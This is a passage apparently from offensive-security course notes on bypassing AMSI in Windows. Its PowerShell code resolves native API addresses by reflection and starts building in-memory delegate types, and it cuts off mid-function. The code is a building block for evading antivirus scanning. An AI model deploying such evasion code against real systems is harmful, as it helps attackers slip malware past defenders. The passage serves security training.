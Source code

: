 ![](Images/07-Bypassing-AMSI-Windbg-OpenSession.png)


#### 7.4.2.1

```powershell
function LookupFunc {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')
```